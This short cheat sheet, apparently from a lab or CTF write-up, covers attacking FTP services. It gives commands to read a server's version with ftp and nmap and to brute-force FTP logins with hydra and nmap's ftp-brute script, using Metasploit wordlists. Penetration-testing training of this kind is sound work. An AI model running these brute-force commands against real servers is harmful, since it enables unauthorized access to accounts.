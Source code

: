 ##### Find FTP Server's Version
```
# First method
ftp IP

# Second method
nmap -sV IP
```

##### Brute Force Username and the Password using Wordlists
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://IP
```

##### Brute Force using Nmap
```
# We found user 'sysadmin' from earlier Brute Force using Hydra. 
echo 'sysadmin' > users
nmap -p21 --script ftp-brute --script-args userdb=/root/users IP
```